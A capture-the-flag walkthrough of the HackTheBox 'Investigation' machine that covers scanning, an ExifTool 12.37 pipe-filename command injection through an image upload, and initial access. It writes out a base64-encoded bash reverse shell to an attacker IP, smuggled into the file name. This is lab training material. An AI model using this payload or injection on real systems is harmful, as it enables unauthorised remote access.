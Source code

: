  ![image](https://user-images.githubusercontent.com/87700008/221355489-6f404be9-6582-460a-aa3d-ecc3eaa1392b.png)

https://app.hackthebox.com/machines/Investigation

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Enuemration :

I started with q qucik rustscan & observed only 2 open ports on the network, i.e 22 & 80

![image](https://user-images.githubusercontent.com/87700008/221355635-38b21308-4d60-427d-b5c4-ec39f8a8f594.png)

    - 22 open ssh syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    - 80 open http syn-ack ttl 63 Apache httpd 2.4.41
    
In the port scan results I found a domain as well 'http://eforenzics.htb/' , which I added to /etc/hosts file.
Browsed through the website & found an upload image options for forensics results.

![image](https://user-images.githubusercontent.com/87700008/221406576-cc1c2a20-e482-493c-ba17-fc0e2918370c.png)
![image](https://user-images.githubusercontent.com/87700008/221406588-b3dc4bfe-c879-4ec7-8eab-9c42c94accf1.png)

Then I proceeded with the subdomain scanning of the webserver & found only 1 result in it '/assets'

![image](https://user-images.githubusercontent.com/87700008/221356009-866a66d0-d4ff-4de4-a1b4-e9dd65dca4bd.png)

I then tried to accessing the '/assets' but got 403 error.

Then I tried to upload the .php file in hope to get some shell but the filters are blocking the upload other than .jpg & .png.
I tried many filters to bypass but it wasn't working.

![image](https://user-images.githubusercontent.com/87700008/221406739-726f6087-f029-4b28-9743-1de130451c22.png)

Then after multiple failure I uploaded regular PNG image & it gave the the forensics results of the image.

![image](https://user-images.githubusercontent.com/87700008/221406805-c9dc7b77-bec4-4054-8635-c1008c84b7bb.png)

I observed that the website is using the 'ExifTool ver 12.37' for the image forensics purpose.

![image](https://user-images.githubusercontent.com/87700008/221406990-c08f0376-9fcc-4a3b-ab76-fdbedf912943.png)

Searching the exploit for this version I landed on this [page.](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)
Which states "An attacker can pass a filename that ends with a pipe (|) to exiftool and if it exists on the filesystem, execute it as an operating system command."

I tried the same using burp & to test it I first started the tcpdump & icmp server to check if I get any response from the machine or not. And I got the response from the host.

    sudo tcpdump icmp -i tun0 -v
  
![image](https://user-images.githubusercontent.com/87700008/221408521-4c20505d-9d29-4cd0-96a0-e6e0271fafd1.png)

After the confirmation that the website is responding & exiftool is vulnerable now it's time for the Rev Shell.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access :

I tried injection the regular bash payload for reverse shell but didn't received any shell, there may be some filters running on the website.
I then encoded the payload in base64 format & appended the decode function after it so that we can execute the payload as well.

    echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NS81MyAwPiYxCg==' | base64 -d | bash|
    
![image](https://user-images.githubusercontent.com/87700008/221409232-b34266c4-4d49-471a-a7af-78675876e693.png)

This time I received the reverse shell with the user running '**www-data**', then stabilized the shell.

I got a user folder in the home directory 'smorton', but I don't have access for his folder.

![image](https://user-images.githubusercontent.com/87700008/221428367-d7865d17-d9d8-4042-9ee1-887142c1f91b.png)

I then tried to check for the vectors of priv esc but few of the methods are asking for user password which I don't have.
I then ran 'linpeas' to check for possible priv esc vectors, I found a cronjob running from '**/usr/bin/crontab**' which is performing some activity in this folder '**/usr/local/investigation/analysed_log**'

![image](https://user-images.githubusercontent.com/87700008/221429059-806cdb8c-5197-4910-8015-11281a387c52.png)

Then I started digging the '**/usr/local/investigation/**' path & found one .msg file there, i.e. '**Windows Event Logs for Analysis.msg**'
I transferred this file into my machine & checked it's content online as I don't have any email reader in kali machine.

![image](https://user-images.githubusercontent.com/87700008/221429231-eb81053e-d8f8-477c-ae45-a8f9a62f317e.png)

I downloaded the e-mail attachment in my machine as well.
